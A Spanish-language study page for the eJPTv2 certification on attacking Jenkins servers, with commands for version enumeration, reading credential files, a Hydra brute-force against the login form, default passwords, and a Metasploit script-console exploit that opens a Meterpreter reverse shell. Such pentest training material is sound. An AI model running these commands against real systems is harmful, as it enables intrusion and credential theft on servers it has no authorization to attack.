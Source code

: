```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# 🌐 Jenkins

Jenkins es una herramienta de integración continua ampliamente utilizada en entornos de desarrollo y despliegue. Debido a su importancia, es un objetivo común en auditorías de seguridad y pruebas de penetración.

## 🕵️ Identificación de la Versión de Jenkins

Determinar la versión del servidor es clave para detectar posibles vulnerabilidades. Podemos hacerlo de varias maneras:

```bash
nmap -sV --script http-jenkins-enum <url>
```

- Reconocimiento con WhatWeb

```bash
whatweb -v <url> # Muestra detalles de la versión detectada.
```

- Accediendo a la Consola de Jenkins

En muchos casos, la versión de Jenkins se puede encontrar directamente en su consola de administración:

```bash
http://<ip>:8080
```

Si la consola es accesible, la versión suele aparecer en la parte inferior de la interfaz o en la sección "About Jenkins".

💡 Importante: Si el acceso a estos directorios no está restringido, puede representar una vulnerabilidad grave.

## 🔑 Enumeración de Usuarios en Jenkins

Jenkins almacena credenciales en config.xml y en otros archivos dentro de /var/lib/jenkins. Si tenemos acceso, podemos enumerar los usuarios configurados:

```bash
cat /var/lib/jenkins/config.xml | grep '<user>'
```

Si no tenemos acceso directo, podemos intentar un escaneo con Metasploit:

```bash
use auxiliary/scanner/http/jenkins_enum
set RHOSTS <url>
run
```

💡 Explicación:

✔ jenkins_enum → Escanea usuarios y configuraciones expuestas en Jenkins.


Ataque de Fuerza Bruta con Hydra 💥

Si encontramos el panel de login de Jenkins, podemos probar credenciales con Hydra:

```bash
hydra -L <usernames_wordlists.txt> -P <password_wordlist.txt> <url> http-post-form "/j_acegi_security_check: j_username=^USER^&j_password=^PASS^:F=incorrect"
```

💡 Explicación:

✔ -L → Lista de usuarios.

✔ -P → Diccionario de contraseñas.

✔ http-post-form → Método de autenticación de Jenkins.

## Credenciales por defecto de Jenkins:


admin:admin

jenkins:jenkins

admin:password

##  Explotación de Jenkins con Metasploit

Si tenemos acceso a la consola de scripts Groovy, podemos ejecutar código malicioso para obtener acceso remoto.

```bash
use exploit/multi/http/jenkins_script_console
set RHOSTS <url>
set TARGETURI /script
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST <tu_ip>
set LPORT 4444
exploit
```

---

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>